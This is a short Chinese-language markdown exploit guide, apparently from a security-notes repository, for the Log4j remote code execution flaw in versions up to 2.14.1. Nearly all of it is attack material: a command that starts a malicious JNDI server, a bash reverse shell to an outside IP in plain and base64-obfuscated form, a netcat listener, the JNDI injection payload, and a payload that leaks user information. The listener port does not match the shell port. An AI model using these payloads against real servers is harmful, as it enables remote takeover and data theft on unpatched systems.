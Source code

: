# Log4j RCE

## 利用条件：
- Apache Log4j 2.x <= 2.14.1

## 利用方法：
### 步骤一：架设恶意JNDI服务
`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "要执行的命令" -A 服务器地址`
```java
base64编码：
bash -i >& /dev/tcp/1.1.1.1/1989 0>&1
反弹shell命令：
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzE5ODkgMD4mMQ==}|{base64,-d}|{bash,-i}
```
![](img/JNDI.png)
### 步骤二：开启监听
`nc -lvp 1898`
### 步骤三：POC
`${jndi:rmi://1.1.1.1:1099/zqjm89}`

##	其他利用
#### 信息外带
- 用户信息：`${sys:user.name}`
- 参考仓库：https://github.com/jas502n/Log4j2-CVE-2021-44228

#### payload变形
- 参考仓库：https://github.com/woodpecker-appstore/log4j-payload-generator

## 漏洞原理：
1. Log4j会把 `${}` 括号中的语句作为命令执行。
2. 注入攻击语句经过解析会先访问ldap服务器，然后由ldap解析出我们要的文件名，ldap向HTTP服务器请求获取这个文件，最后网站服务器在本地实例化并执行这个java类，即攻击者的攻击脚本得到执行。